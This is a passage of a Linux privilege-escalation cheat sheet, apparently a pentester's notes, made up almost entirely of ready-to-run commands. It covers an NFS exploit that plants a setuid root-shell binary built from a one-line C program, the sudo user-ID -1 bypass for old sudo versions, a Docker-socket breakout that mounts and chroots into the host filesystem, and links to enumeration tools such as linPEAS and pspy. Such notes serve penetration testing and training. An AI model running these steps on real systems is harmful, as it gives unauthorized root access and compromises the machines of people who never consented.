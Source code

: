 -> Mount - Attacker VM
```
mkdir /tmp/1
mount -o rw,vers=2 <ip>:/<nfs_directory> /tmp/1
```

-> Creating and compiling file for privesc - Attacker VM
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
gcc /tmp/1/x.c -o /tmp/1/x
chmod +s /tmp/1/x
```

-> Exploitation - VM Owned
```
/tmp/x
id
```

### sudo < v1.28 - @sickrov [PrivEsc]
```
sudo -u#-1 /bin/bash
```

### Docker Breakout [PrivEsc]
-> Search the socket
```
find / -name docker.sock 2>/dev/null
```

-> list images  
```
docker images
```

-> Exploitation
```
docker run -it -v /:/host/ <image>:<tag> chroot /host/ bash
```

### Linux Enumeration Tools [PrivEsc]
-> Linpeas
```
./linpeas.sh
```
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

-> pspy (unprivileged Linux process snooping)  
```
./pspy64
```
https://github.com/DominicBreuker/pspy

-> linux-exploit-suggester
```
./linux-exploit-suggester.sh
```
or  
```
./linux-exploit-suiggester.sh --uname <uname-string>
```
https://github.com/The-Z-Labs/linux-exploit-suggester

-> Unix Privesc Check
```
./unix-privesc-check
```
https://pentestmonkey.net/tools/audit/unix-privesc-check
